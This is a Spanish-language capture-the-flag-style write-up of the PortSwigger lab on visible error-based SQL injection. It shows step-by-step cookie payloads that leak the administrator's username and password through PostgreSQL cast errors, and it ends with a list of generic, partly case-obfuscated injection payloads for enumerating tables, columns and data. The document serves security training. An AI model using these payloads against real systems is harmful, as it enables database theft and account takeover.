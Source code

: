 ```yaml
---
title: Visible error-based SQL injection - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```

    
`TrackingId=ogAZZfxtOKUELbuJ'`
    
- En la respuesta, observe el mensaje de error detallado. Esto revela la consulta SQL completa, incluido el valor de su cookie. También explica que tiene un literal de cadena sin cerrar. Observe que su inyección aparece dentro de una cadena entre comillas simples.

En la solicitud, agregue caracteres de comentario para comentar el resto de la consulta, incluido el carácter de comilla simple adicional que está causando el error:

`TrackingId=ogAZZfxtOKUELbuJ'--`

Envíe la solicitud. Confirme que ya no recibe ningún error. Esto indica que la consulta ahora es sintácticamente válida.

-  Adapte la consulta para incluir una `SELECT`subconsulta genérica y convierta el valor devuelto a un `int`tipo de datos:

`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`

Envíe la solicitud. Observe que ahora recibe un error diferente que indica que una `AND` condición debe ser una expresión booleana.

- Modifique la condición según corresponda. Por ejemplo, puede simplemente agregar un operador de comparación ( `=`) de la siguiente manera:

`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`

Envíe la solicitud. Confirme que ya no recibe ningún error. Esto sugiere que se trata nuevamente de una consulta válida.

 - Adapte su `SELECT`declaración genérica para que recupere los nombres de usuario de la base de datos:
 
 `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`

Observa que vuelves a recibir el mensaje de error inicial. Observa que ahora tu consulta parece estar truncada debido a un límite de caracteres. Como resultado, los caracteres de comentario que agregaste para corregir la consulta no se incluyen.

- Borre el valor original de la `TrackingId`cookie para liberar algunos caracteres adicionales. Reenvíe la solicitud.
   
`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
Observe que recibe un nuevo mensaje de error, que parece generado por la base de datos. Esto sugiere que la consulta se ejecutó correctamente, pero sigue recibiendo un error porque inesperadamente devolvió más de una fila.

- Modifique la consulta para que devuelva solo una fila:

`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

Envíe la solicitud. Observe que el mensaje de error ahora filtra el primer nombre de usuario de la `users`tabla:

`ERROR: invalid input syntax for type integer: "administrator"`

- Ahora que sabe que `administrator`es el primer usuario de la tabla, modifique la consulta una vez más para filtrar su contraseña:

`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

Inicie sesión `administrator`usando la contraseña robada para resolver el laboratorio.


![20240805024925.png](20240805024925.png)

![20240805024950.png](20240805024950.png)

```c
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)

,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1

' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT data_column FROM data_table LIMIT 1) as int) --
```


